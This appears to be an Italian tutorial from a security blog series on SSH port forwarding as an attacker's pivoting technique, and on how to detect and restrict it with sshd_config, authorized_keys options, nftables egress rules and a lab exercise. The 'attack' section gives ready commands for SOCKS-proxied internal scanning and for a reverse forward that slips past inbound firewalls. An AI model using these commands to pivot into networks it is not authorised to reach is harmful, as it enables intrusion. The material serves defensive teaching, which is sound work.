

## Perché conta

SSH non serve solo ad aprire una shell: è un multiplexer di canali cifrati. Con una riga di comando si può far passare qualsiasi flusso TCP dentro una connessione già autorizzata dal firewall. Per un amministratore è comodo (raggiungere un database interno, evitare di esporre porte). Per un attaccante che ha compromesso un host è il modo più semplice di fare **pivoting**: usare quella macchina come testa di ponte verso reti che da fuori non si vedono.

Il firewall vede una sola connessione verso la porta 22, cifrata e legittima. Per questo il tunneling è un problema di policy prima ancora che di rilevamento. Questo articolo completa [SSH hardening]() e [SSH Certificates](), e si lega al tema dell'[egress filtering]() e del [DNS tunneling]().

## Come funziona

Il protocollo (RFC 4254) apre un *canale* per ogni connessione inoltrata, tutti dentro la stessa sessione cifrata. Esistono tre modalità:

- **Local forward** (`-L`): una porta locale sul client viene girata verso un host raggiungibile dal server.
- **Remote forward** (`-R`): una porta sul server viene girata verso un host raggiungibile dal client. È il caso che apre una porta *dentro* la rete del server.
- **Dynamic forward** (`-D`): il client espone un proxy SOCKS5 e ogni destinazione è decisa al volo.



Il costo prestazionale è noto: quando dentro il tunnel passa a sua volta TCP si ha il fenomeno del *TCP-over-TCP*, in cui due controlli di congestione e due timer di ritrasmissione interagiscono male. Con la stima di Mathis il throughput di un flusso è
$$\text{BW} \le \frac{\text{MSS}}{\text{RTT}}\cdot\frac{C}{\sqrt{p}}$$
con $p$ probabilità di perdita e $C\approx 1{,}22$. Su un canale con perdita, il flusso interno e quello esterno si penalizzano a vicenda, e questo spiega perché un pivot SSH è lento per i trasferimenti grandi ma perfetto per scansioni e accessi interattivi.

## L'attacco

Con un account sul bastion o sull'host compromesso, l'attaccante raggiunge la rete interna senza installare nulla:

```bash
# Local forward: la porta 5433 locale arriva al PostgreSQL interno
ssh -N -L 5433:10.0.2.5:5432 utente@dmz.example.com
psql -h 127.0.0.1 -p 5433 -U app

# Dynamic forward: proxy SOCKS5 verso l'intera rete interna
ssh -N -D 1080 utente@dmz.example.com
proxychains4 nmap -sT -Pn -p 22,443,5432 10.0.2.0/24

# Remote forward: espone il servizio SSH del portatile interno sul server esterno
ssh -N -R 2222:127.0.0.1:22 utente@vps.example.net
ssh -p 2222 utente_locale@vps.example.net
```

L'ultimo caso è il più insidioso: una connessione *in uscita* dalla rete interna crea una porta *in entrata* sul server esterno, aggirando un firewall che blocca tutto il traffico entrante. Con `-J` (ProxyJump) si concatenano più salti, ad esempio `ssh -J a@dmz,b@core c@10.0.5.9`, e ogni salto compare solo come connessione in uscita dal precedente.

Cosa si osserva dal lato difensivo: un processo `sshd` con molte connessioni in uscita verso la rete interna, sessioni SSH lunghe con traffico continuo senza TTY, e porte in ascolto inattese:

```bash
ss -tnlp | grep -E 'sshd|ssh'
journalctl -u ssh --since "1 hour ago" | grep -E 'channel [0-9]+: open failed|forwarding'
```

## La difesa

Il principio è: il forwarding è un privilegio da concedere per utente e per destinazione, non un default. In `sshd_config` si disabilita globalmente e si riabilita solo dove serve; per i bastion si usa solo `ProxyJump` con destinazioni vincolate.

```text {hl_lines=[2,3,4,5,9,10,11,12]}
# /etc/ssh/sshd_config
AllowTcpForwarding no
AllowStreamLocalForwarding no
GatewayPorts no
PermitTunnel no
X11Forwarding no

# eccezione: il gruppo "dbadmin" può solo andare al database
Match Group dbadmin
    AllowTcpForwarding local
    PermitOpen 10.0.2.5:5432
    PermitTTY no
    ForceCommand /bin/false
```

`AllowTcpForwarding local` impedisce i `-R`, `PermitOpen` limita le destinazioni dei `-L` e `-D`, `ForceCommand /bin/false` toglie la shell. Per le chiavi si può restringere nel file `authorized_keys` con `restrict,port-forwarding,permitopen="10.0.2.5:5432"`, oppure nei certificati con le estensioni, come visto in [SSH Certificates]().

Sul bastion, in aggiunta, il firewall limita ciò che può fare l'utente dei tunnel, perché `PermitOpen` non protegge da un host compromesso con un client diverso:

```text {hl_lines=[4,5]}
table inet bastion {
  chain output {
    type filter hook output priority 0; policy accept;
    meta skuid "sshtunnel" ip daddr 10.0.2.5 tcp dport 5432 accept
    meta skuid "sshtunnel" counter log prefix "ssh-tunnel-deny " drop
  }
}
```

Infine il monitoraggio: alert su nuove porte in ascolto di `sshd`, su sessioni senza TTY di durata anomala e su connessioni in uscita dai server DMZ verso Internet sulla 22 (il caso `-R`), che l'[egress filtering]() dovrebbe già negare.

## Lab

Con containerlab (o tre namespace) costruisci: `attacker` → `dmz` → `db`, dove `attacker` raggiunge solo `dmz:22` e `db` ascolta su 5432 solo da `dmz`.

1. Raggiungi `db:5432` da `attacker` con un local forward.
2. Applica la configurazione `sshd_config` sopra su `dmz` e ripeti: cosa cambia nei log?
3. Prova un remote forward dall'host `db` verso `attacker`: è bloccato? Da quale direttiva?


<details><summary>Soluzione</summary>
<p>1. <code>ssh -N -L 5433:db:5432 utente@dmz</code> e poi <code>psql -h 127.0.0.1 -p 5433</code>: funziona perché il firewall vede solo la connessione sulla 22.</p>
<p>2. Con <code>AllowTcpForwarding no</code> il client riceve <em>administratively prohibited: open failed</em> e in <code>journalctl -u ssh</code> compare il rifiuto del canale <code>direct-tcpip</code>. Solo gli utenti del gruppo <code>dbadmin</code> passano, e solo verso <code>10.0.2.5:5432</code>.</p>
<p>3. Il <code>-R</code> viene rifiutato dal server di destinazione se <code>AllowTcpForwarding</code> è <code>no</code> o <code>local</code>; il blocco in uscita di <code>db</code> verso Internet lo ferma comunque a livello di rete.</p>
</details>


## Conclusione

Il tunneling SSH non è una vulnerabilità: è una funzione del protocollo che diventa un rischio quando il forwarding è aperto per default e l'host che lo ospita è raggiungibile da Internet. Chiudilo globalmente, riaprilo per utente e destinazione, vincola i bastion a `ProxyJump` e filtra il traffico in uscita. Con questi tre livelli un host compromesso smette di essere un trampolino.

**Prossimo nella serie:** altri approfondimenti sul perimetro e sull'accesso remoto · [Torna alla roadmap]()
